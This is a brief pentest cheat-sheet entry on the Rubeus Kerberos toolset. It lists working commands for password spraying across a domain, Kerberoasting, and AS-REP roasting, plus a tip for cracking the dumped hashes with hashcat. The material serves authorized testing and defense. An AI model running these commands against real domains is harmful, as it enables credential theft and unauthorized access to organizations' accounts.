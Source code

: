 ```yaml
---
title: RUBEUS
summary: "A C# toolset for raw Kerberos interaction and abuses."
description: "A C# toolset for raw Kerberos interaction and abuses."
---
```


**[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)**

## Password Spraying


 > 
 > **<font color=red>Rubeus.exe brute /password:</font>myPassword <font color=red>/noticket</font>**</br>
 > Spray a password against all users in current domain and return the `.kirbi` TGT of users that use this password.

## Kerberoasting


 > 
 > **<font color=red>Rubeus.exe kerberoast</font>**</br>
 > Dump Kerberos hashes of kerberoastable users (same as GetUserSPNs.py but on the target machine).

## AS_REProasting


 > 
 > **<font color=red>Rubeus.exe asreproast</font>**</br>
  
 > Dump Kerberos hashes of AS_REProastable users. (Then Insert `23$` after `$krb5asrep$` and use `hashcat -m 18200`).
